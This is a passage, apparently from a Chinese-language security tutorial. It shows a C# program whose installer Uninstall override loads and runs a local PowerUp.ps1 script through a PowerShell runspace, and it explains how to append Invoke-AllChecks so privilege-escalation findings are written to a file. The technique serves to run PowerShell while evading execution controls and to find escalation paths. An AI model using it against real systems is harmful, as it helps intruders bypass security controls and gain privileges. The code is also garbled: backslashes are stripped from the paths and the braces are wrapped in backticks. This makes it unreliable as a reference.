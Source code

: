 

Program.cs文件完整的代码如下所示：

 



```
using System;
 using System.Configuration.Install;
 using System.Runtime.InteropServices;
 using System.Management.Automation.Runspaces;
 public class Program
 `{`
 public static void Main()
 `{`
 `}`
 `}`
 [System.ComponentModel.RunInstaller(true)]
 public class Sample : System.Configuration.Install.Installer
 `{`
 public override void Uninstall(System.Collections.IDictionary savedState)
 `{`
 Mycode.Exec();
 `}`
 `}`
 public class Mycode
 `{`
 public static void Exec()
 `{`
 string command = System.IO.File.ReadAllText(@"C:UsersfmcDesktopPowerUp.ps1");
 RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
 Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
 rspace.Open();
 Pipeline pipeline = rspace.CreatePipeline();
 pipeline.Commands.AddScript(command);
 pipeline.Invoke();
 `}`
 `}`
```



在这个例子中，我使用到了Veil-Framework的PowerUp脚本，你可以在PowerShell的命令行工具中执行下列命令，然后将运行结果保存到一个文件中：



```
Import-Module PowerUp.ps1
Invoke-AllChecks -Verbose | Out-File C:UsersfmcDesktopallchecks.txt
```

    

为了保证这个方法能够正确地调用我们所需的函数，我们还需要在脚本的末尾调用一个显式函数。打开PowerUp.ps1脚本，然后在脚本文件的底部添加下列函数调用语句，请一定要确保语句中的Out-File参数设置正确。保存文件，并退出编辑器。

```
Invoke-AllChecks -Verbose | Out-File C:UsersfmcDesktopallchecks.txt
```

